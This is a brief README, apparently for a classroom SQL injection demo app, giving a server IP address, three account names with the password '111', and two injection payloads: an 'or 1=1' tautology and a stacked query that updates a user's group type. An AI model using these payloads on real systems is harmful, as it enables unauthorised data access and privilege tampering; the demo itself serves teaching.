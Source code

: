# README 

IP address: 52.88.168.203

Existing Accounts:

1. wuxuan  111 
2. abemelvin 111
3. zckchange 111

Order Inject Example: `%' or 1=1 or '`

User Inject Example(type in the 'last name' blank): 

```
%'; UPDATE `sqlinject_group` SET `group_type` = "A" WHERE user_id = 1;'
```